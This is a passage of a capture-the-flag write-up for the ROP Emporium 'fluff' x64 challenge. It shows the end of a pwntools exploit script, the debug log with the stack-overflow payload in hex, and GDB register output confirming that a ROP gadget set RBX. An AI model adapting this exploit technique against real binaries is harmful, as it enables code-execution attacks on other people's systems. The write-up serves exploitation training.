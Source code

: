 ```python
    rop.chain()
])

# Pwn!
io.clean()
io.sendline(payload)
io.interactive()
```

```
$ python3 exploit.py
[+] Starting local process './fluff' argv=[b'./fluff'] : pid 7087
[DEBUG] Wrote gdb script to '/tmp/pwnf6cppg2c.gdb'
    b *0x0040062a
[*] running in new terminal: /usr/bin/gdb -q  "./fluff" 7087 -x /tmp/pwnf6cppg2c.gdb
[DEBUG] Launching a new terminal: ['/usr/bin/x-terminal-emulator', '-e', '/usr/bin/gdb -q  "./fluff" 7087 -x /tmp/pwnf6cppg2c.gdb']
[+] Waiting for debugger: Done
[DEBUG] PLT 0x400500 pwnme
[DEBUG] PLT 0x400510 print_file
[*] '/home/kali/ctf/rop-emporium/fluff/x64/fluff'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
[*] Loaded 13 cached gadgets for './fluff'
[DEBUG] Received 0x68 bytes:
    b'fluff by ROP Emporium\n'
    b'x86_64\n'
    b'\n'
    b'You know changing these strings means I have to rewrite my solutions...\n'
    b'> '
[DEBUG] Sent 0x41 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000020  41 41 41 41  41 41 41 41  2a 06 40 00  00 00 00 00  │AAAA│AAAA│*·@·│····│
    00000030  00 40 00 00  00 00 00 00  fd 7f ad de  ef be ad de  │·@··│····│····│····│
    00000040  0a                                                  │·│
    00000041
[*] Switching to interactive mode
[DEBUG] Received 0xb bytes:
    b'Thank you!\n'
Thank you!
```

Let's see if we managed to set `RBX` to `0xdeadbeefdeadbeef` in GDB:

```
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0xb               
$rbx   : 0xdeadbeefdeadbeef
$rcx   : 0xdeadbeefdeadbeef
$rdx   : 0x4000            
$rsp   : 0x00007ffc7de4f900  →  0x00007ffc7de4f90a  →  0x0607000000010000
$rbp   : 0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0x00007fcc7383b723  →  0x83d670000000000a
$rdi   : 0x00007fcc7383d670  →  0x0000000000000000
$rip   : 0x0000000000400638  →  <questionableGadgets+16> ret 
$r8    : 0xb               
$r9    : 0x2               
$r10   : 0xfffffffffffff52d
```